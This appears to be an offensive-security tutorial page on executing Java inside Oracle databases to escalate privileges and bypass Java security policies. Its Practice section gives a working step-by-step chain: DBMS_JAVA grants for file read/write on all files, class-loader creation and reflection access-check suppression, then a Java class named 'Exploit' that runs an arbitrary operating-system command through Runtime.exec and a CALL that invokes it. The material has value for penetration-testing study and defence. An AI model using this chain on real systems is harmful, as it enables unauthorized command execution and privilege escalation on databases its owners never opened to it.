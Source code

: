 ```yaml
---
title: 'Oracle Java Execution: Bypass Security in Databases'
description: Learn to execute Java within Oracle databases to escalate privileges
  or bypass security policies with DBMS_JAVA techniques.
keywords:
- Oracle Java execution
- DBMS_JAVA
- Java policy bypass
- privilege escalation
- Oracle database security
- SQL command execution
- Java Virtual Machine
---
```


# Oracle Java Execution

## Context

Oracle Java Execution involves executing Java code within Oracle databases to escalate privileges or bypass security policies. It requires a solid understanding of the Java security model, Oracle database architecture, and prior experience with Oracle SQL Command Execution techniques.

## Theory

### Oracle Java Security Mechanisms

Oracle databases are capable of executing Java code through an embedded Java Virtual Machine (JVM). The execution of Java code is tightly controlled by security policies and permissions, which are configured to restrict unauthorized access and operations. However, if these permissions are misconfigured, it can allow unauthorized execution of Java code, posing a significant security risk.

### DBMS_JAVA Package

The `DBMS_JAVA` package in Oracle databases manages Java classes and permissions. This package can be manipulated to grant permissions that allow arbitrary Java code execution. Attackers can exploit this by using specific procedures within `DBMS_JAVA` to extend their privileges and perform unauthorized actions within the database.

### Java Policy Bypass Techniques

Java policy bypass involves exploiting weak configurations in security policies to allow unauthorized operations. By manipulating Java permissions, attackers can potentially execute Java code with elevated privileges, thus bypassing the intended security mechanisms of the Oracle database.

## Practice

### Executing Arbitrary Java Code via DBMS_JAVA

To perform Oracle Java Execution and escalate privileges or bypass policies, follow these manual steps using the `DBMS_JAVA` package in an Oracle environment:

- **Grant File Read/Write Permissions:**

    Use the following command to give file read/write permissions to the target schema. This step is essential if your Java code needs to interact with the file system.

    ```bash
    EXEC DBMS_JAVA.grant_permission('SCHEMA', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'read,write');
    ```

- **Allow Class Loader Creation:**

    This command grants the ability to create new class loaders, which is useful for dynamically loading Java classes at runtime.

    ```bash
    EXEC DBMS_JAVA.grant_permission('SCHEMA', 'SYS:java.lang.RuntimePermission', 'createClassLoader', '');
    ```

- **Permit Access to Declared Members:**

    Access to declared members of various classes is often needed for introspection or modification.

    ```bash
    EXEC DBMS_JAVA.grant_permission('SCHEMA', 'SYS:java.lang.RuntimePermission', 'accessDeclaredMembers', '');
    ```

- **Suppress Access Checks for Reflection:**

    This step allows the bypassing of reflection-based access checks, enabling deeper introspection into classes.

    ```bash
    EXEC DBMS_JAVA.grant_permission('SCHEMA', 'SYS:java.lang.reflect.ReflectPermission', 'suppressAccessChecks', '');
    ```

- **Create a Java Class for Execution:**

    Compile a Java class within the Oracle database that can execute system commands. Replace `<command>` with the actual system command you intend to run.

    ```sql
    CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "Exploit" AS 
    public class Exploit { 
        public static void exec() { 
            java.lang.Runtime.getRuntime().exec("<command>"); 
        } 
    };
    ```

- **Invoke the Java Method:**

    Finally, execute the command by invoking the Java method:

    ```bash
    CALL Exploit.exec();
    ```

By completing these steps, you execute system commands within the context of the Oracle database, often with privileges elevated beyond an ordinary user's permissions.

## Tools

- **Oracle SQL\*Plus**
- **SQL Developer** 

These tools facilitate the execution of SQL commands and interaction with Oracle databases, essential for carrying out the procedures mentioned above.